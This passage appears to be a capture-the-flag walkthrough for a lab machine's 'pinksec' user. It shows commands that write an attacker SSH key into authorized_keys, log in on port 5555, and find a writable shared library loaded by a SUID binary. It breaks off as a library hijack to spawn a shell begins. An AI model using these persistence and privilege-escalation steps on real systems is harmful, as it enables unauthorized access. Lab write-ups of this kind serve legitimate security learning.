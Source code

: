 
target pinksec install ssh key:

    mkdir /home/pinksec/.ssh; echo ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC7PS9b4hJ9xWrYxXRQfPtV/Djpgc/b2mQ39sfgKCf0p2pvmp9XxJRq+Fsjne+rftfMLsxY7h6jjI+4peMbiCVwtRB84KasjJcBe9JVzjQcNaW5tqzHQToJ8uhP0/97qW7XxebWflXl+qutSzDxZFJbR4CTsISjdBHDVHzHwPQNwJuBrNuwJ4l3h2CSV8R4IBqEjDGUHO3dL18nsWBwXueT9FFUn56DxxpFbawEDbbyrOUNcFq+SIyWWSG9Uzrzv6zPSDdtWCyLLrT3ZsSJg134WqZ2VXV8KMyXUfGTVmDzB6ji7MWWRAVYsHTgprlLCvoPH9ZrcdUi1UWLjYF8Kws9 root@execatwill  > /home/pinksec/.ssh/authorized_keys

quick test connection with ssh key:

    ssh -i pinksec pinksec@192.168.56.118 -p 5555

*port 5555 which we enumerated as SSH in our begin recon.*

![](https://paper-attachments.dropbox.com/s_E629904ADD63961C3017402B2CAC04CCE6B65A453AE29E259CD60CE0EC42430D_1553815446024_image.png)


Next, we begin our enumeration all over again

$HOME directory

![](https://paper-attachments.dropbox.com/s_E629904ADD63961C3017402B2CAC04CCE6B65A453AE29E259CD60CE0EC42430D_1553815590313_image.png)


`pinksecd` has a SUID sticky bit for user “pinksecmanagement”. We now need to figure out exactly how this binary works and figure out an exploit to escalate privileges.

perform `strings` on the binary and quicky see that the application is calling a global library file `libpinksec.so`

![](https://paper-attachments.dropbox.com/s_E629904ADD63961C3017402B2CAC04CCE6B65A453AE29E259CD60CE0EC42430D_1553816053596_image.png)


For reference `.so` files refer to shared objects and/or libraries applications call locally.

Listing dependencies of a binary:

    ldd pinksecd

![](https://paper-attachments.dropbox.com/s_E629904ADD63961C3017402B2CAC04CCE6B65A453AE29E259CD60CE0EC42430D_1553816228096_image.png)


we can see from our dependencies that `/lib/libpinksec.so` is writeable, which offers an entry way of taking over this shared object and take us further down the road

Navigate to location of `libpinksec.so`

    cd /lib/ && ls -al

![](https://paper-attachments.dropbox.com/s_E629904ADD63961C3017402B2CAC04CCE6B65A453AE29E259CD60CE0EC42430D_1553816441036_image.png)


Our current location (sanity check):

- We know that `pinksecd` has a SUID for user “pinksecmanagement”
- We know that pinksecd calls on `libpinksec.so`
- We know the shared object is rewrite-able 

Re-writing libpinksec.so:
First, we create a script to take over a function and return a “/bin/sh”
